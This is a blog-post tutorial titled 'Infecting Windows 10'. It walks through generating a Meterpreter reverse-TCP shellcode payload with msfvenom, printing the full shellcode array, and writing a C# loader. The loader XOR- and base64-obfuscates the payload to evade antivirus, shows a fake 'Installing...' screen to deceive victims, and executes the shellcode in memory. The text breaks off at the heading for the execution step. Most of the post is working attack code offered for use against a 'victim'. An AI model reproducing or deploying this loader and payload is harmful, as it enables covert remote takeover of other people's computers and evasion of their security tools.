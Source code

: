 ```yaml
---
layout: post
title:  "Infecting Windows 10"
date:   2023-06-30 21:21:21 +0530
tags: [csharp,kali-linux,virus]
---
```


**Introduction to Infecting Windows 10**  

For my first post that has actual content, I am going to show you guys how to create a payload in Metasploit on Kali Linux and then create a loader for it in C#!  

**Step 1: Creating the Payload**  

First you need to hop on Kali and open a terminal. Then we are going to use a command to create the payload to use. Type the following in your terminal:  
```bash
$ sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$HOST LPORT=$PORT -f csharp > payload.cs
```    
You should see something like this:  
<img src="https://char2int.com/assets/images/6-30-23/image03.webp" alt="image03">  

Okay so, what does this do? This command creates a csharp file containing the payload bytes we will execute in the loader.  

<i>HOST</i> refers to the ip of the attacker (127.0.0.1)  
<i>PORT</i> refers to the port that you will listen to on the offending machine (4444)  

To find your local IP address do the following command:  
```bash
$ ifconfig
```  
You should see something like this:  
<img src="https://char2int.com/assets/images/6-30-23/image01.webp" alt="image01">  

To find your public IP address do the following command:  
```bash
$ curl icanhazip.com
```  
You should see something like this:  
<img src="https://char2int.com/assets/images/6-30-23/image02.webp" alt="image02">  

You can change your port to any number between **0 and 65536**.  

Your `payload.cs` should look something like this:  
```csharp
byte[] buf = new byte[510] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,
0x51,0x65,0x48,0x8b,0x52,0x60,0x56,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x4d,0x31,0xc9,0x48,0x0f,
0xb7,0x4a,0x4a,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x48,
0x8b,0x52,0x20,0x8b,0x42,0x3c,0x41,0x51,0x48,0x01,0xd0,0x66,
0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0x50,0x8b,0x48,0x18,
0xe3,0x56,0x48,0xff,0xc9,0x4d,0x31,0xc9,0x41,0x8b,0x34,0x88,
0x48,0x01,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
0x41,0x8b,0x04,0x88,0x41,0x58,0x41,0x58,0x5e,0x48,0x01,0xd0,
0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,
0x01,0x00,0x00,0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x01,0xc8,
0xc0,0xa8,0x1a,0x81,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,
0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68,
0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
0xd5,0x6a,0x0a,0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,
0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,
0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,
0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,
0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,
0xce,0x75,0xe5,0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10,
0x48,0x89,0xe2,0x4d,0x31,0xc9,0x6a,0x04,0x41,0x58,0x48,0x89,
0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,
0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,
0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,
0x31,0xc9,0x41,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,
0xc3,0x49,0x89,0xc7,0x4d,0x31,0xc9,0x49,0x89,0xf0,0x48,0x89,
0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,
0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,0x40,
0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,
0x30,0xff,0xd5,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,
0xd5,0x49,0xff,0xce,0xe9,0x3c,0xff,0xff,0xff,0x48,0x01,0xc3,
0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,0xff,0xe7,0x58,
0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5
};
```  
You now have your payload and it's time to infect your victim! Except, oh wait! How do we execute it? Most methods of executing these bytes are detected by every antivirus under the sun! Head to step two to find out how to use this payload you created!  

**Step 2: Creating the Loader**  
Now that we have the payload.cs, it's time to use it! Boot up your favorite IDE and create a new .NET Framework  Console project. I'm using Visual Studio for mine...

Paste in the following code into your **main function**:
```csharp
            Console.Title = "Installing Project!"; // Fake them out
            Console.WriteLine("Installing..."); // Fake them out
            string announcements_enc = dcb.get("", false);
            string[] announcements = announcements_enc.Split(',');
            byte[] f_announcements = new byte[announcements.Length];
            for (int i = 0; i < announcements.Length; i++)
            {
                f_announcements[i] = Convert.ToByte(announcements[i], 16);
            }
            UInt32 funcAddr = VirtualAlloc(0x0000, (UInt32)f_announcements.Length, 0x1000, 0x40);
            Marshal.Copy(f_announcements, 0x0000, (IntPtr)(funcAddr), f_announcements.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0x0000;
            IntPtr pinfo = IntPtr.Zero;
            hThread = CreateThread(0x0000, 0x0000, funcAddr, pinfo, 0x0000, ref threadId);
            WaitForSingleObject(hThread, 0xffffffff);
            Console.WriteLine("Done!"); // Gottem
```  
then paste the following AFTER your **main** function:
```csharp
        [DllImport("kernel32")]

        private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32")]

        private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

        [DllImport("kernel32")]

        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```  
Next you will need to add another C# class...
**dcb.cs**  
```csharp
 internal class dcb
    {
        public static string get(string one, bool i)
        {
            if (i)
            {
                return BE(Ehd(one));
            }
            else
            {
                return (Ehd(BD(one)));
            }
        }

        private static string Ehd(string one)
        {
            int two = CHANGEMETOARANDOMNUMBER; // ex. 203948
            StringBuilder szIn = new StringBuilder(one);
            StringBuilder szOut = new StringBuilder(one.Length);
            char Textch;
            for (int iCount = 0; iCount < one.Length; iCount++)
            {
                Textch = szIn[iCount];
                Textch = (char)(Textch ^ two);
                szOut.Append(Textch);
            }
            return szOut.ToString();
        }

        private static string BE(string one)
        {
            var p = System.Text.Encoding.UTF8.GetBytes(one);
            return System.Convert.ToBase64String(p);

        }
        public static string BD(string one)
        {
            var b = System.Convert.FromBase64String(one);
            return System.Text.Encoding.UTF8.GetString(b);
        }
    }
```  
Make sure you change CHANGEMETOARANDOMNUMBER to a random number.  
Next you need to paste your payload into the line:
```csharp
string announcements_enc = dcb.get("PAYLOAD", false);
```  
and change the line to:
```csharp
Console.WriteLine(dcb.get("PAYLOAD", true));
```  
to see what the encrypted payload is. You also need to comment out the rest of your code to see something like this:
<img src="https://char2int.com/assets/images/6-30-23/image04.webp" alt="image04">  
Copy the output to where you had put your payload originally, uncomment your commented code, and revert the Console.WriteLine line back to string anncouncements_enc:  
<img src="https://char2int.com/assets/images/6-30-23/image05.webp" alt="image05">  
Now that all of our coding is done, it's time for the fun to begin!  

**Step 3: Execution**  